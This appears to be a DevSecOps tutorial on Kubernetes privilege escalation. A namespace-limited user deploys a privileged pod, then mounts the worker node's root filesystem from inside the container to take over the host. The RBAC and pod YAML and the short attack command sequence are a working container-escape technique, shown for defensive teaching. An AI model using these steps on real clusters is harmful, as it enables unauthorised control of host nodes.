# From a Pod to a Node: The Privileged Escalation Trap

As a DevSecOps professional, it's critical to understand the dangers of misconfigured Security Contexts and how an unprivileged user can escalate privileges to compromise a Kubernetes worker node.

**Learning Objectives**

* Understand what securityContext.privileged is and the impact of its misconfiguration.
* Learn how an unprivileged user can gain privileged access to the worker node.
* Discover how to secure the user namespace and prevent this escalation.


### 1) Simulating an Unprivileged User in the Kubernetes Cluster

In this step, we simulate a common real-world scenario by creating a restricted user ("Tim") with limited access to a specific namespace.

User Profile: "Tim" (Developer/Troubleshooter)

Tim's permissions are scoped to a single namespace to follow the principle of least privilege. Within this namespace, Tim can perform tasks essential for his role, such as:

* Creating, managing, and deleting Pods and Deployments.
* Executing commands inside pods (using kubectl exec).
* Listing and watching resources for monitoring and debugging.

**Key Restriction:** Crucially, Tim does not have cluster-wide administrative rights (e.g., he cannot access Nodes, create ClusterRoles, or view other namespaces). This setup is designed to be secure, but as we will see, a single misconfiguration can render these boundaries ineffective.

This setup provides the initial conditions for our demonstration, showing how even a user with limited namespace access can potentially escalate their privileges.


```yaml
---
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: default  # Change to your desired namespace
  name: devops-role
rules:
- apiGroups: ["apps", ""]
  resources: ["deployments", "pods", "pods/exec"]
  verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
- apiGroups: [""]
  resources: ["pods/exec"]
  verbs: ["create"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: devops-role-binding
  namespace: default  # Must match the Role's namespace
subjects:
- kind: Group
  name: devops
  apiGroup: rbac.authorization.k8s.io
roleRef:
  kind: Role
  name: devops-role
  apiGroup: rbac.authorization.k8s.io
---
```

### 1) Understend privilege escalation

n this scenario, a user named Tim has restricted access to the Kubernetes cluster. However, he is able to deploy a Pod with a critical security misconfiguration: `privileged: true`. This setting gives the container root-level access to the underlying host node, which is extremely dangerous.

**Dangerous Pod Configuration**

Tim deploys the following Pod, which requests privileged access:

```yaml
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  creationTimestamp: null
  labels:
    run: nginx-pod
  name: nginx-pod
spec:
  containers:
  - image: nginx
    name: nginx-pod
    resources: {}
    securityContext:
      privileged: true
EOF
```

**Attack Demonstration**

Once the Pod is running, an attacker can gain access to its shell and easily escalate their privileges to control the host node.

```bash
# 1. Access the Pod
kubectl exec -it nginx-pod -- /bin/bash

# 2. Create a mount point inside the container
mkdir -p /mnt/worker

# 3. Mount the host's root filesystem
mount /dev/vda1 /mnt/worker

# 4. The attacker can now read (and potentially write to) the host's files.
# For example, reading the host's hostname proves control:
cat /mnt/worker/etc/hostname
```

We have mount root file system of worker-0 and  attacker takes over the host.

### 2)  Lesson Learned

This demonstration highlights a critical security principle: understanding both Kubernetes and Linux security is essential for securing workloads.

Allowing containers to run with privileged access breaks the isolation that containers are designed to provide. It grants the container the same capabilities as the root user on the host machine, making privilege escalation trivial.

In a future topic, we will discuss specific strategies and tools, such as Pod Security Standards and Admission Controllers, to prevent these kinds of misconfigurations in a Kubernetes environment.

### 3) Demonstration Video
[Watch Demo on YouTube] (https://youtu.be/_Zy7Jnh5h8A)

